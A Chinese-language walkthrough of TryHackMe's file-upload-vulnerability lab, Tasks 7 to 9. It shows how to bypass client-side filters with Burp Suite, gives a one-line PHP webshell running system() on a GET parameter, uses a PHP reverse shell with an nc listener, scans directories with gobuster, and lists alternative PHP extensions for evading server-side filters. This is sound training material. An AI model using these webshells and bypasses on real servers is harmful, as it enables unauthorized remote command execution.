

# 0516文件上传绕过（client-side）

https://tryhackme.com/room/uploadvulns的Task 7

已知http://java.uploadvulns.thm（PS：需要在/etc/hosts中设置IP和域名对应）只存在client-side的文件上传过滤，目标是得到该服务器/var/www/下的flag


打开网页如下：




因为是client-side的过滤故查看源代码，发现非png类型文件不可上传


整个流程是用户请求网页，然后服务器返回网页信息（html等等信息），其中包含了上面用于过滤文件类型的JavaScript代码。然后点击“select file”打开文件后，过滤代码就在用户端运行。点击上传，文件就传输到服务器。


所以我们可以用两种方法来打破client-side过滤的机制：

1. 在服务器返回网页信息的时候截胡，把过滤代码删掉
2. 在过滤代码执行的时候处理，上传一个png后缀文件，但在执行结果返回前把文件类型改回来

可以用webshell或者reverse shell：

1. webshell我用的是以下代码

   ```
   <?php
   	echo system($_GET["cmd"]);
   ?>
   ```

2. reverse shell用的是kali的/usr/share/webshells/php/php-reverse-shell.php（记得改文件里的$IP为攻击机的IP）

以上的2X2种方法可以随便组合

## 方法一：删过滤代码+webshell

打开网页代理，打开burpsuite，选择response to this request来显示服务器返回的包（默认情况下不显示）。


点击forward，收到返回的包，删除过滤的js代码


点击forward后，正常上传文件即可

问题是不知道webshell.php在哪，所以用gobuster扫一下文件目录：

```
gobuster dir -u http://java.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

找到一个可疑的文件夹/images，访问这个文件夹：http://java.uploadvulns.thm/images果然在里面，所以只要访问

```
http://java.uploadvulns.thm/images/webshell.php?cmd=cat /var/www/flag.txt
```


## 方法二：修改文件类型+reverse shell

把php-reverse-shell.php改成shell.png(改成shell只是懒得打，但是后缀一定要改)


点击“upload”，修改文件类型，点击forward成功上传

也是一样的用gobuster找到文件上传到何处

攻击机这边打开netcat的listener，然后访问

```
nc -lvnp 1234(端口号)
```

获得reverse shell，得到flag


# 0516文件上传绕过（server-side）-文件拓展名过滤

https://tryhackme.com/room/uploadvulns的Task 8

后缀改成php5就可以上传了，以下是一些很少使用但服务器或许可以识别的Php后缀名，一个个试出来的：.php3, .php4, .php5, .php7, .phps, .php-s,  .pht .phar。


# 0516文件上传绕过（server-side）-magic numbers过滤

https://tryhackme.com/room/uploadvulns的Task 9

